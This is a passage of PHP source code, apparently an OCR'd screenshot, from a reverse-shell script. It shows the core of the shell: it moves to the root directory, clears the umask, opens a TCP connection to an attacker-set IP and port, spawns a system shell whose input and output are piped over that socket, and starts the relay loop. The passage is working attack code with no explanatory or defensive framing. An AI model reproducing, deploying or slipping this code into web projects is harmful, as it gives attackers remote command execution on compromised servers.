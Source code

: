 ```bash
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

```